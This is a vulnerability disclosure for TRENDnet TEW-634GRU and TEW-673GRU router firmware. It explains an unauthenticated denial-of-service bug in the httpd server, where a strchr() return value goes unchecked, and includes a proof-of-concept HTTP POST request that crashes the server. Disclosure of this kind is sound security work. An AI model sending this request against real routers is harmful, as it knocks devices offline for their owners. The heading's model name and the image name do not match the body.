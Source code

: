 # TEW-634BRP

## Firmware version
TEW-634GRU devices through 1.01b14
TEW-673GRU devices through 1.00b40

firmware download url: 
https://downloads.trendnet.com/tew-634gru/firmware/tew-634gruv1_(fw1.01b14).zip
https://downloads.trendnet.com/tew-673gru/firmware/tew-673gru_fw100b40.zip


## Description
Multiple TRENDnet devices can be attacked due to an unauthenticated denial-of-service vulnerability in the httpd web server because the URL path processing lacks a check on strchr return value.

## Detail
The vulnerability is located in the `httpd_main` function of the `httpd` web server of affected devices.

The vulnerable code directly access the returned string pointer of `strchr()` function call, which can be nullable. Consequently, an attacker can construct a URL path that does not contain the expected character `.` to trigger the vulnerability.

The following is the vulnerable code:

![vulnerable_code](soap_action_overflow.png)

We've constructed a PoC to successfully trigger the vulnerability, which led to a crash in the web server:

```txt
POST /vct_lan_00 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36
Content-Type: 104
Content-Length: 49

html_response_page=wzqwzqwzq&p_default_key=
```
